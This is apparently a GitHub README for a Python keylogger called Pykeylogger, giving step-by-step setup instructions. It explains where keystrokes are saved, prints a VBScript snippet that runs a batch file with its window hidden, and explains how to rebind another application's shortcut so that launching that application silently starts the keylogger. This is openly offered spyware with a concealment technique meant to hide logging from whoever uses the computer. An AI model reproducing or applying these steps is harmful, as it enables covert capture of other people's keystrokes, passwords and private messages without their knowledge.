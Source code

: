 # Pykeylogger
Pykeylogger a combination of cmd and the keylogger to start the keylogger with clicking the application
   
in the .pyw file 
change  file path ("c:/keystrokes/") to your prefered path to save the keystroke text file and save a empty .txt file in the path   

change the two paths in batchconnect.txt
save batchconnect.txt as .bat

now you integrate .vbs into your .bat file for an invisible start of the command line

Set WshShell = CreateObject("WScript.Shell") 
WshShell.Run chr(34) & "C:\(batchconnect path)batchconnect.bat" & Chr(34), 0
Set WshShell = Nothing

change the c:\ path to the batchconnect.bat path save the document as .vbs 

right click the application you bound to your keylogger click settings then shortcuts then target and then paste the .vbs path
